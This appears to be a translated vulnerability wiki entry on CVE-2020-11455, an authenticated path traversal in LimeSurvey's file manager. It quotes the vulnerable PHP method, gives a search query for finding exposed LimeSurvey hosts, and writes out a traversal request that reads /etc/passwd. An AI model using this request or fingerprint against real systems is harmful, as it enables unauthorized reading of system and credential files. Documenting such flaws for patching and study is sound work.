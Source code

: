# LimeSurvey LimeSurveyFileManager.php A random file reading vulnerability in the background CVE-2020-11455

## Vulnerability Description

LimeSurvey (formerly known as PHPSurveyor) is an open source online questionnaire program of the LimeSurvey team. It supports the development of survey program, questionnaire release and data collection functions.
LimeSurvey 4.1.12 + There is a path traversal vulnerability in the application/controllers/admin/LimeSurveyFileManager.php file in versions prior to 200324. 

## Vulnerability Impact

LimeSurvey < 4.1.12 + 200324</span>

## Network surveying and mapping

app="LimeSurvey"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650453876458-96aaea24-21f4-4ffb-9339-c596d9c4fc87.png)

The file with the vulnerability is `application/controllers/admin/LimeSurveyFileManager.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650453992802-1393b9ad-1a7f-41ba-b80c-5f2058c4bfc7-20220420194636996.png)

```php {14-19}
public function downloadFiles() {
        App()->loadLibrary('admin.pclzip');
        
        $folder = basename(Yii::app()->request->getPost('folder', 'global'));
        $files = Yii::app()->request->getPost('files');

        $tempdir = Yii::app()->getConfig('tempdir');
        $randomizedFileName = $folder.'_'.substr(md5(time()),3,13).'.zip';
        $zipfile = $tempdir.DIRECTORY_SEPARATOR.$randomizedFileName;
        $arrayOfFiles = array_map( function($file){ return $file['path']; }, $files);
        $archive = new PclZip($zipfile);
        $checkFileCreate = $archive->create($arrayOfFiles, PCLZIP_OPT_REMOVE_ALL_PATH);
        $urlFormat = Yii::app()->getUrlManager()->getUrlFormat();
        $getFileLink = Yii::app()->createUrl('admin/filemanager/sa/getZipFile');
        if($urlFormat == 'path') {
            $getFileLink .= '?path='.$zipfile;
        } else {
            $getFileLink .= '&path='.$zipfile;
        }

        $this->_printJsonResponse(
            [
                'success' => true,
                'message' => sprintf(gT("Files are ready for download in archive %s."), $randomizedFileName),
                'downloadLink' => $getFileLink ,
            ]
        );
    }
```

The route is: `admin/filemanager/sa/getZipFile`, here pass the parameter path into the method `getZipFile()`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650454603065-aa5fbb1b-b8bb-4a45-ad2f-c86dd87ce2f5-20220420194643953.png)

Here, the file is read by the readfile method, and the request is sent after logging in to the background.

```php
/index.php/admin/filemanager/sa/getZipFile?path=/../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650454764306-b899ea3a-16f0-4fdb-b4a1-80df09dd17e4.png)